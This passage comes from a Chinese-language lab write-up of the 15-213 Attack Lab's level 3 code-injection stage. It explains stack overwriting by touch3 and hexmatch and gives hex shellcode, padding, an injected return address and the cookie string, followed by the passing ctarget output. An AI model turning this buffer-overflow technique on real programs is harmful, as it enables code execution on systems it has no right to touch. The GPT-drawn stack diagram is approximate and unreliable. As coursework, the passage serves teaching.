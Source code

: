 由于 touch3 开头就使用了 push   %rbx，将 %rbx 的值写入了栈中，接着使用  callq 调用了 hexmatch 函数，这个操作也会把 0x401916 返回地址写入 touch3 的栈帧中。在 hexmatch 的开头，连续使用了三条 push指令，修改了栈的内容。以上的几个操作会改变 buf 缓冲区的内容。

让 gpt 画了下大概是这样的：

```
+----------------------+
| test 的栈帧          |
+----------------------+
| 00 00 40 18 4c      |  <---- %rsp ① 跳转到 touch3
+----------------------+
| push %rbx           |  <---- %rsp ② push %rbx
+----------------------+
| callq 40184c        |  <---- %rsp ③ 调用 hexmatch
+----------------------+
| (padding)           |
| (对齐数据)           |
+----------------------+
| 重叠 8 个字节       |  <---- %rsp ④ 这里有连续三条 push 指令
+----------------------+
| buf (0x5561dc78)    |
| (存放输入数据)       |
| ...                 |
+----------------------+
| cbuf (0x5561dc00)   |  <---- %rsp ⑤ add $0xffffffffffffff80, %rsp
| (更多缓冲区空间)     |
+----------------------+

```

所以为了避免 cookie 值被覆盖掉，我们放在字符串的最后，注意一下计算就可以了。

```
48 c7 c7 a8 dc 61 55 /* mov    $0x5561dca8,%rdi */
68 fa 18 40 00       /* pushq  $0x4018fa */
c3                   /* retq */
00 00 00 00 00
00 00 00 00 00 
00 00 00 00 00 
00 00 00 00 00 
00 00 00 00 00 
00 00 78 dc 61 
55 00 00 00 00          /* buf 起始地址 */
35 39 62 39 39 37 66 61 00       /* cookie: 0x59b997fa */

```

至此，就解决了 CI 攻击：

```bash
ubuntu@192.168.174.130 ~/Desktop/attacklab/target1 % cat 1lev3.txt | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 
```
